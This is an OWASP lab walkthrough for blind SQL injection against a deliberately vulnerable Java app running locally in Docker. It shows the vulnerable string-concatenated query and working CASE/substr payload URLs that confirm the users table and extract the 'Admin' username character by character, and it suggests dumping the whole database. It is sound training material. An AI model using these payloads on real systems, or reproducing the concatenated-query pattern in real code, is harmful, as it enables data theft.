







# SQLI \(Blind\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli-blind
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli-blind
```


Now that the app is running let's go hacking!


## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.



```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote


```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.



```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.



```text
http://localhost:5000/home/1 AND 1=2
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.


```text
http://localhost:5000/home/1
```


```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.


```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.



```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.



### Step 4

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.



```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.



```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing_for_SQL_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)
